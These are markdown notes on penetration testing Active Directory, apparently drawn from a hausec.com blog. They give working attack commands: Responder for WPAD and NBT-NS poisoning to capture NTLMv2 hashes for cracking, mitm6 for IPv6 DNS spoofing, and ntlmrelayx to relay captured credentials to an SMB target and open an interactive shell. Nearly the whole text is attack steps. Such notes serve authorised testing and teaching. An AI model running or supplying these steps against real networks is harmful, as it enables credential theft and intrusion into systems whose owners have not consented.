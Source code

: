 https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/

* Do I have an IP address?
```
> ipconfig
$ ifconfig
```

* Check if there are other hosts on my network segment
```
nmap -sn 192.168.1.1/24
```
  - Remember `-sn` is an ICMP ping, use others where nothing returned


* Startup **[Responder](https://github.com/SpiderLabs/Responder)**
  - WPAD and NBT-NS poisoning:

  - Listening for WPAD requests:
  ```
  responder -I eth0 --wpad
  ```
  - Gets hash in NTLMv2 format -> hashcat / john

* mitm6
  - Another technique that utilizes IPv6 and DNS to relay credentials to a target.
  - By default, IPv6 is enabled and actually preferred over IPv4, meaning if a machine has an IPv6 DNS server, it will use that over the IPv4.
  - Also by default, Windows machines look for an IPv6 DNS server via DHCPv6 requests, which if we spoof with a fake IPv6 DNS server, we can effectively control how a device will query DNS.
  - More can be read [here](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/).

  ```
  git clone https://github.com/fox-it/mitm6.git
  cd mitm6
  pip install .

  mitm6 -d lab.local
  ```
  - So now we leverage the fact that we control DNS with spoofing WPAD answers again via ntlmrelayx.py. I wrote a guide on how to set it up here.
  - With mitm6 running in one window, open another and run ntlmrelayx.py
  ```
  ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
  ```
    - wh: Server hosting WPAD file (Attacker’s IP)
    - t:  Target (You cannot relay credentials to the same device that you’re spoofing)
    - i:  open an interactive shell
